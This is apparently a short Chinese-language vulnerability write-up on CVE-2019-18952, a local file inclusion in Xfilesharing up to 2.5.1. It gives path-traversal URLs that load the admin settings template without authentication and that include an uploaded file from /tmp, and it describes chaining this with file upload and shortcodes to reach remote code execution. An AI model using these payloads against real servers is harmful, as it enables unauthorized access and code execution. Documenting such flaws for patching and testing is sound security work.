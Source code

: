 ```yaml
---
title: （CVE-2019-18952）Xfilesharing 2.5.1本地文件包含
id: zhfly3285
---
```


# （CVE-2019-18952）Xfilesharing 2.5.1本地文件包含

## 一、漏洞简介

## 二、漏洞影响

Version: <=2.5.1

## 三、复现过程

### 本地文件包含

```
http://0-sec.org/?op=page&tmpl=../../admin_settings 
```

此URL将获取“ admin_settings.html”模板，无需任何身份验证。“ .html”扩展名在服务器上进行了硬编码，因此所包含的文件必须在服务器上的任何位置都具有html扩展名。甚至可以通过上传html文件（例如“ upload.html”）并将“ sid”更改为“ ../../../../../../tmp”将LFI与任意文件上传漏洞合并，然后因此该文件将上传到服务器的tmp目录中。

```
http://0-sec.org/?op=page&tmpl=../../../../../../../tmp/upload 
```

Xfilesharing脚本也内置了短代码，因此您可以实现RCE通过将它们包括在“上传”中。